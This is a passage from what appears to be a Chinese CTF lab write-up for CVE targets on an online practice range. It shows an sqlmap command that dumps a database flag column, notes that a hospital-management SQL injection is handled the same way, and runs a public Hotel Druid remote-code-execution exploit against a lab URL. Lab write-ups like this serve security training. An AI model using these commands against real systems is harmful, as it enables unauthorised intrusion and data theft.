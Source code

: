 

```
sqlmap -r 1.txt  -D ctf -T flag -C flag --dump --batch
```

## CVE-2022-23366 Hospital Management Startup 1.0 sqli

*靶标介绍：*

Hospital Management Startup 1.0 sqli

同上



## CVE-2022-22909 Hotel Druid RCE

*靶标介绍：*

Hotel Druid RCE

前期准备工具
GitHub - 0z09e/CVE-2022-22909: Hotel Druid 3.0.3 Code Injection to Remote Code Execution

靶场地址
http://eci-2ze51ta3xlpb5h4hs28a.cloudeci1.ichunqiu.com

应用程序没有身份验证。运用该–noauth标志不履行身份验证。

 python exploit.py -t http://eci-2ze51ta3xlpb5h4hs28a.cloudeci1.ichunqiu.com/ --noauth  

![image-20230718170550639](%E9%9D%B6%E5%9C%BA.assets/image-20230718170550639.png)
